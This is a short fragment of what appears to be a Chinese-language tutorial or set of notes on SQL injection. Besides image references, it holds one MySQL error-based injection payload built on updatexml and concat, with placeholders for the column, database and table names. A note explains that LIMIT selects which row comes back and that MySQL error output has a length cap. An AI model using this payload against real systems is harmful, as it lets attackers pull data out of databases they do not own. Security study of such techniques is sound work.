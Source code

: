 ![image-20250222164804155](static/image/image-20250222164804155.png)

```mysql
# 通过 limit 来指定第几个，但是数据内容过长的话会导致显示不完整，mysql报错输出内容有长度限制
updatexml(1,concat(0x7e,(SELECT(CONCAT(字段名))FROM(数据库名.表名) limit 第x条数据,1),0x7e),1)
```

![image-20250222164942725](static/image/image-20250222164942725.png)
